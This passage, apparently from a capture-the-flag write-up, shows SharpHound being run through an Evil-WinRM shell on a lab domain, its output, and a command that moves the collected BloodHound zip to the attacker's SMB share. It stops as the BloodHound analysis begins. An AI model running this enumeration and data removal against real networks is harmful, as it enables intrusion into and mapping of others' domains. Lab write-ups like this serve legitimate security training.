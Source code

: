 

I'll use `-c all` for all collections methods, and it creates a `.zip`
output file:



    *Evil-WinRM* PS C:\programdata> .\SharpHound.exe -c all
    ----------------------------------------------
    Initializing SharpHound at 4:35 AM on 4/1/2020
    ----------------------------------------------

    Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container                                                              

    [+] Creating Schema map for domain MEGACORP.LOCAL using path CN=Schema,CN=Configuration,DC=MEGACORP,DC=LOCAL
    [+] Cache File not Found: 0 Objects in cache

    [+] Pre-populating Domain Controller SIDS
    Status: 0 objects finished (+0) -- Using 19 MB RAM
    Status: 94 objects finished (+94 ì)/s -- Using 27 MB RAM
    Enumeration finished in 00:00:00.6367272
    Compressing data to .\20200401043525_BloodHound.zip
    You can upload this file directly to the UI

    SharpHound Enumeration Completed at 4:35 AM on 4/1/2020! Happy Graphing! 



I'll move that back to my box:



    *Evil-WinRM* PS C:\programdata> move 20200401043525_BloodHound.zip \\10.10.14.19\share\



### BloodHound Analysis

Loading that into Bloodhound, I'll start by bringing up the three
accounts I've owned and marking them as such (right click and select
Mark as Owned). Then I'll run the query "Shortest Paths to High Value
Targets", and it returns this:
